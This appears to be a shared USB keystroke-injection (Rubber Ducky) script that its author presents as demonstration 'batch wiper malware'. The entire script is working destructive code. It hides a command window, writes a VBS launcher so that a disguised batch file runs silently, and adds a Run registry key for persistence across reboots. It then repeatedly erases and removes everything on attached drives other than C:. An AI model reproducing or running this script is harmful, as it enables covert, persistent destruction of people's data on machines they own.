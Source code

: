 Created by overwraith, use at your own risk. This script will erase attached drives on your computer. Made in to demonstrate batch wiper malware. Features a registry key that will restart the script on reboot, aswell as a vb script that will allow the batch file to run silently on vista and Windows 7 machines. 
```
REM By overwraith
REM EraseFlashDrives.txt
REM PURPOSE: to delete the contents of attached drives. 
GUI r
STRING cmd /Q /D /T:7F /F:OFF /V:OFF /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
REM THE DIRECTORY YOU WANT TO HIDE THE SCRIPT IN
STRING cd %TEMP%
ENTER
REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
ENTER
CONTROL z
ENTER
REM Delete batch file if already exists
STRING erase /Q SecurityBullseye.bat
ENTER
REM Make the batch file
REM SLIGHT THROWBACK TO VIDEO GAME BIOSHOCK I/II
STRING copy con SecurityBullseye.bat
ENTER
REM REGISTRY KEY RESTARTS THE SCRIPT ON REBOOT
STRING REG ADD HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Persistence /t REG_SZ /d "wscript.exe %TEMP%\invis.vbs %TEMP%\SecurityBullseye.bat" /f
ENTER
STRING :while1
ENTER
REM C:\ IS USUALLY THE DRIVE THE OS IS INSTALLED ON, SO OMIT. 
STRING for %%a in (A B D E F G H I J K L M N O P Q R S T U V W X Y Z) do (
ENTER
STRING IF EXIST %%a:\ erase /Q /S /F "%%a:\*.*"
ENTER
STRING IF EXIST %%a:\ rmdir /Q /S "%%a:\*"
ENTER
STRING )
ENTER
STRING timeout /t 60
ENTER
STRING goto :while1
ENTER
CONTROL z
ENTER
REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs SecurityBullseye.bat
ENTER
STRING EXIT
ENTER
```